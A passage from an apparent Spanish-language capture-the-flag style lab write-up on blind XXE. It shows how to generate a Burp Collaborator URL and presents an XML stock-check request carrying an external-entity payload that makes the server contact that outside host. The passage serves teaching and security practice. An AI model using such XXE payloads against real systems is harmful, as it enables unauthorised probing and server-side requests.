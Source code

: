 Vemos este menú, y en la parte de **Generate collaborator payloads**, vemos un botón que dice **Copy to clipboard**, al darle nos copiara una URL de un servidor que se acaba de crear y podremos recibir las peticiones que le hagamos, en el objetivo de este nivel solo es enseñarnos a usar esta función, así que al agregar esta URL a la petición:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://pjctd07aibvq11qf4eds3tzp7gd61v.burpcollaborator.net"> ]>
	<stockCheck>
		<productId>
			14
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![url](/assets/images/LabsXXE/lab3/urlxml.png)

Vemos que nos responde el mensaje **Invalid product ID**, pero si ahora en la sección de BurpCollaborator vamos y damos en el botón de PollNow veremos lo siguiente:
